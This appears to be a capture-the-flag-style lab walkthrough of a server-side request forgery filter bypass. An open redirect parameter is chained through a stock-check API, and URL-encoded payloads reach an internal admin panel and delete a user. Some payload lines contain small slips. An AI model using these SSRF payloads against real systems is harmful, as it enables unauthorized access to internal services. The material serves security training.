





# SSRF with filter bypass via open redirection vulnerability

## This lab has a stock check feature which fetches data from an internal system.

## To solve the lab, change the stock check URL to access the admin interface at `http://192.168.0.12:8080/admin` and delete the user `carlos`.

## The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.

---

### step 1

intercept stock check feature which fetches data from an internal system
send to repeater

stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%
send request response => 200 ok

add path=http://192.168.0.68/admin
stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1&path=http://192.168.0.68/admin
send request response => 200 ok
but no admin panel display

### step2

there is next product in stock check feature page click and intercept
GET /product/nextProduct?currentProductId=2&path=/product?productId=3

click on _follow redirection_

enter https://www.google.com in path senction

click on folllow redirection

### step3

intercept stock check feature which fetches data from an internal system
add /product/nextProduct?currentProductId=2&path=/product?productId=3
select url and press ctrl + u url encoder
stockApi=/product/nextProduct%3fcurrentProductId%3d2%26path%3d/product%3fproductId%3d3
send request response => 200 ok

stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
url encoded
stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin

add /http://192.168.0.12:8080/admin/delete?username=carlos

stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admindelete?username=carlos
url encoded
stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete%3fusername%3dcarlos

